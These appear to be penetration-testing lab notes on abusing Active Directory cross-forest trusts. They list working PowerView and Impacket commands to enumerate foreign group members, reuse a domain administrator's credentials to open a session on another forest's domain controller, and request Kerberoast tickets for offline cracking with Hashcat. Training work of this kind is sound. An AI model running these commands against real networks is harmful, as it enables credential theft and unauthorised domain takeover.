 ## Admin Password Re-Use & Group Membership
### PowerView function Get-DomainForeignGroupMember to enumerate groups with users that do not belong to the domain
```
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```
### Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500 (SID Found in the previous command after MemberName)
Accessing DC03 Using Enter-PSSession (-Credential is the name of the account found in the previous command, which means the Admin in inlanefreight is a member of the Admin group in Freightlogistics domain)
```
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```
# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux
we can perform this with GetUserSPNs.py from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the -target-domain flag in our command. Performing this against the FREIGHTLOGISTICS.LOCAL domain, we see one SPN entry for the mssqlsvc account
```
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
Rerunning the command with the -request flag added gives us the TGS ticket
```
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
```
crack this offline using Hashcat with mode 13100
## Hunting Foreign Group Membership with Bloodhound-python
